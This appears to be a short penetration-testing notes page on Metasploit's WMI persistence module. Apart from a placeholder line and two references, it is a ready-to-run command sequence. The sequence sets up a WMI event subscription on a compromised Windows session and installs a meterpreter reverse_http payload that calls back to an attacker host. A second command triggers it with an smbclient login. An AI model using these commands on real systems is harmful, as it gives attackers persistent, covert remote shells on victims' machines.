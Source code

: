 # Metasploit

TODO: Fill this info

```
msf > use exploit/windows/local/wmi_persistence

set session <session_ID>

set callback_interval 60000

set username_trigger <any_real_username>

set payload windows/x64/meterpreter/reverse_http

set lhost <IP>

set lport <PORT>

run
```

Trigger the payload with `smbclient` or wait for someone to authenticate.

```
$ smbclient //<target_IP>//C$ -U <any_real_username> <any_password>
```

---
## References

- [Liberty Shell: WMI Persistence](https://liberty-shell.com/sec/2019/06/16/wmi-persistence/)

- [Pentestlab: Persistence – WMI Event Subscription](https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/)